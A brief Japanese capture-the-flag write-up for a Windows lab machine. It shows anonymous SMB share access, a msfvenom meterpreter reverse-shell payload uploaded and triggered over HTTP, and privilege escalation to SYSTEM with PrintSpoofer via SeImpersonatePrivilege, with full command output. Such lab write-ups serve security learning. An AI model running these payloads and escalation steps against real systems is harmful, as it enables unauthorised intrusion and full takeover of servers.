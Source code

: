 ```yaml
---
title: "Rerevand"
date: 2024-03-18T09:58:44+09:00
draft: false
---
```


### user

- smb が開いてるのでこれを起点にする
  - enum4linux は動かなかった
  - nmap よく見たら windows だった
  - ```smbclient -L \\\\ip``` で使えそうな share を探す
  - ```nt4wrksv``` が使えそう
  - パスワードなしで入れる
  - パスワードリストが手に入る
- ```nt4wrksv``` が書き込み可能なのでリバースシェルを入れる([SMB (Server Message Block) Pentesting - Exploit Notes](https://exploit-notes.hdks.org/exploit/windows/active-directory/smb-pentesting/#upload-files))
  - ```msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=ip lport=port -f aspx -o shell.asp```
  - ```smb: \> put shell.aspx```
  - ```curl http://10.10.16.163:49663/nt4wrksv/shell.aspx```

### root

- SeImpersonatePrivilege が使える([Abusing Tokens - HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens))
- ```wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe``` を使う

```shell
eterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
```

``` shell
meterpreter > shell

C:\users\bob\desktop>cd c:/inetpub/wwwroot/nt4wrksv
cd c:/inetpub/wwwroot/nt4wrksv

c:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv

03/17/2024  05:50 PM    <DIR>          .
03/17/2024  05:50 PM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
03/17/2024  05:50 PM            27,136 PrintSpoofer64.exe
03/17/2024  05:45 PM         1,020,190 shell.aspx
               3 File(s)      1,047,424 bytes
               2 Dir(s)  20,277,039,104 bytes free

c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer64.exe -i -c powershell.exe
PrintSpoofer64.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system

PS C:\Windows\system32> cd /users/administrator/desktop
cd /users/administrator/desktop

PS C:\users\administrator\desktop> dir
dir


    Directory: C:\users\administrator\desktop


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
-a----        7/25/2020   8:25 AM             35 root.txt  
```
